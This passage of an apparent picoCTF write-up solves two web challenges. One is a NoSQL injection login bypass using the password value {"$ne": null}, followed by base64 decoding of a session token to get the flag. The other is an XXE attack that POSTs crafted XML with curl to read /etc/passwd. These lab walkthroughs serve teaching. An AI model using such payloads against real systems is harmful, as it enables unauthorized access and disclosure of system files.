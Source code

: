**Goal: Log in as the known user**
<pre>
{  
  firstName: "pico",  
  lastName: "player",  
  email: "picoplayer355@picoctf.org",  
  password: <randomly generated>  
}
</pre>

We know the email, but not the password. To bypass the password check, we can use: `"password”:{“$ne”:null}`

On the login page, enter:

*   **Email**: `picoplayer355@picoctf.org`
*   **Password**: `{"$ne": null}`

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*xT_qNr2Fbb4d4yOgTy0pog.png)

We’ll be logged in as the admin.

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*RwWGMSjyWzGMQ2y2nPtseA.png)

1.  Open **DevTools** → **Application** tab → **Session Storage**
2.  We’ll see a **token** (base64 encoded)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*uNJj132gWM9GeBrPRVTvrA.png)

Decode it using CyberChef, `base64 -d`, or any decoder

> picoCTF{jBhD2y7XoNzPv\_1YxS9Ew5qL0uI6pasql\_injection\_67b1a3c8}

*8\. SOAP*
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*x2vBXXp2FX9tVjXRU6KLVQ.png)

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*FAPw2QjyXTIAjPREHvAglg.png)

Inspecting the HTML source, we find a form that submits data to `/data` using `POST`. The frontend loads `xmlDetailsCheckPayload.js`, hinting the request body is **XML**.

This, combined with the prompt to read `/etc/passwd`, clearly suggests a classic **XXE (XML External Entity)** vulnerability.

We craft a malicious XML with an external entity pointing to `/etc/passwd`:

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*k9ZeRim_0GsvBjlXzDpVLg.png)

Save it as `xxe.xml`.

**Send using** `curl`

<pre>
curl -X POST http://saturn.picoctf.net:51560/data \
  -H "Content-Type: application/xml" \
  --data-binary @xxe.xml
</pre>

